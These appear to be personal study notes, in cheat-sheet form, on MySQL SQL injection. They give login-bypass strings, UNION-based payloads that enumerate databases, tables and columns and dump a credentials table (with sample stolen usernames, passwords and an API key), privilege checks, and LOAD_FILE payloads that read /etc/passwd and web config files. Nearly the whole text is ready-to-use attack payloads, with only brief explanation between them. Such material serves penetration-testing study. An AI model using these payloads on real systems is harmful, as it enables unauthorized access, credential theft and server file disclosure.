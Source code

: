 
SELECT * FROM logins WHERE username='admin' AND password = '47bce5c74f589f4867dbd57e9ca9f808';

admin') or '1'='1'-- -

SELECT * FROM logins WHERE (username='admin' AND id > 1)-- - AND password = '47bce5c74f589f4867dbd57e9ca9f808';

test' OR id = 5)-- -
toma' OR id = 
test' OR id = 4)-- -

# dump name databases

UNION select 1,database(),2,3-- -

## dump databases:
		UNION select 1,2,SCHEMA_NAME,4 FROM INFORMATION_SCHEMA.SCHEMATA-- - 
		
### example:
		UNION select 1,2,schema_name,4 from INFORMATION_SCHEMA.SCHEMATA-- -
		DATABSES="information_schema,mysqL,performance_schema,backup,dev"

## dump tables

	' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='name_db'-- -

### example

	' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema='dev'-- -
	TABLES="framework,pages,credentials,posts"

## dump columns

	' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='name_table'-- -

### example
	' union select 1,column_name,table_name,table_schema from information_schema.columns where table_name='credentials'-- -

COLUMNS="username,password"

## dump data

	UNION select 1, username, password, 4 from dev.credentials-- -
### example :
	union select  1,username,password 4 from dev.credentials-- -
### OR	
	union select  1,2,group_concat(username,":",password),4 from dev.credentials-- -

		admin	password	
		dev_admin	admin123	
		api_key	MzkyMDM3ZGJiYTUxZjY5Mjc3DFNGFDmQ2YFGDF2VmYjZkZDU0NmHGFDQgIC0K	
		software_engineer	3920aaaaadfsdf37dbba51f692776d6cefb6dd546d

if want understand a lot information linke website mysql
https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html

## Reading Files:

Privileges:eading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in MySQL, the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

## DB User:
	SELECT USER()
	SELECT CURRENT_USER()
	SELECT user from mysql.user

### commands : 
		UNION SELECT 1, user(), 3, 4-- -
		UNION SELECT 1, user, 3, 4 from mysql.user-- -

## User Privileges
Now that we know our users, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

		SELECT super_priv FROM mysql.user

### example:
	
		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

## Notes:
 		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
		THis payload return in page ('Y') which means YES, indicating superuser privileges. We can also dump other privileges we have directly

SELECT sql_grants FROM information_schema.sql_show_grants

Once again, we can add WHERE user="root" to only show our current user root privileges. Our payload would be:

' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
return in page YES or Y 

all of the possible privileges given to our current user:


## LOAD_FILE:
		SELECT LOAD_FILE('/etc/passwd');
	example:
	 	UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

	 	Another Example:
	 		We know that the current page is index.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/index.php
	 		UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

